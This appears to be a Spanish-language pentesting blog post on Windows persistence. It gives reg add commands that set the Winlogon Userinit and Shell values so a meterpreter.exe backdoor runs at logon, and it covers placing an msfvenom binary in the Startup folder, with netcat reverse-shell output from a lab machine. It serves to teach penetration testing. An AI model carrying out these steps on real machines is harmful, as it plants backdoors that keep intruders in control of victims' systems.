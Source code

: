 ```yaml
---
layout: post
title: Persistencia en Windows
subtitle: Persistencia en Windows
tags: [windows,winlogon]
---
```


## Persistencia de usuarios con privilegios elevados

### Winlogon

**WinLogon** es el proceso de administrar las aperturas y cierres de sesión, el lanzamiento y la detención de los protectores de pantalla, el bloqueo/desbloqueo de la estación de trabajoy la detención/reinicio de la máquina.

Por ejemplo, cuando se inicia sesión el proceso WinLogon es responsable de cargar su perfil de usuario en el registro. Por lo tanto cada cuenta de usuario de Windows depende de WinLogon para usar las claves de HKEY_CURRENT_USER, que es unica para cada usuario.

### Valores de clave predeterminado

Sus valores de registro se encuentran en HKEY_LOCAL_MACHINE.  
Podemos encontrarlo en la siguiente ruta abriendo ele ejecutable `regedit.exe`.

![reg](../assets/imgs/persistencia/reg.png)

Aqui entre muchas otras claves, vemos que tenemos claves llamadas `Userint` y `Shell` de tipo **REG_SZ**. Usaremos estas claves para ganar persistencia en la máquina.

### Persistencia usando Userinit Key

Como tenemos un shell de sistema, usamos el comando "reg query" para obtener información sobre la clave **Userinit** de WinLogon.

```
reg query "HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon" /v userinit

HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon
    userinit    REG_SZ    C:\Windows\system32\userinit.exe,
```

Añadimos nuestro ejecutable malicioso (meterpreter.exe).

```
reg add "HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon" /v userinit /d "Userinit.exe, meterpreter.exe" /f
```

Realizamos la consulta nuevamente para verificar los cambios

```
reg query "HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon" /v userinit

HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon
    userinit    REG_SZ    Userinit.exe, meterpreter.exe
```

![reg2](../assets/imgs/persistencia/reg2.png)


Ganando una shell


```
meterpreter > getuid
Server username: WIN7\win7bits
meterpreter > sysinfo
Computer        : WIN7
OS              : Windows 7 (6.1 Build 7601, Service Pack 1).
Architecture    : x86
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 1
Meterpreter     : x86/windows
```

### Persistencia usando Shell Key

Obtuvimos nuestra persistencia usando la clave Userinit. Ahora centremonos en otra clave que se puede utilizar para lograr la persistencia en la máquina destino. Es la clave Shell. De forma predeterminanda, contiene `explorer.exe` como se mostró en la imagen anterior.

modificamos los valores del registro similar al anterior y de esa forma tambien tendriamos un shell persistente

```
reg query "HKLM\Software\Microsoft\Windows NT\CurrentVersion\Winlogon" /v Shell
reg add "HKLM\Software\Microsoft\Windows NT\CurrentVersion\Winlogon" /v Shell /d "explorer.exe, meterpreter.exe" /f
```

----
----

## Persisistemcia de usuarios con bajos privilegios

La persistencia con privilegios bajos significa que el proveedor de penetración ganó y usa técnicas de persistencia para mantener su acceso al sistema de destino bajo un perfil/cuenta de usuario normal(un usuario de dominio sin derechos administrativos)

### Persistencia de la carpeta inicio

Suponiendo que no consideramos que la escalada de privilegios es necesaria y solo queremos tener acceso al sistema en caso de que el usuarioreinicie la máquina , el metodo simple sería mover la puerta trasera a la carpeta de inicio.  
La ruta de la carpeta de inicio es: `C:\Users\%username%\AppData\Roaming\Microsoft\Windows\Start Menu\Programs\Startup`.  
Busque esa ruta y cargue el binario que generó con msfvenom.


El resultado seria obtener una shell con el usuario donde se haya subido el ejecutable.

```
❯ nc -lvnp 9999
listening on [any] 9999 ...
connect to [192.168.0.107] from (UNKNOWN) [192.168.0.102] 49161
Microsoft Windows [Version 6.1.7601]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

C:\Windows\system32>whoami
whoami
win7\win7bits
```
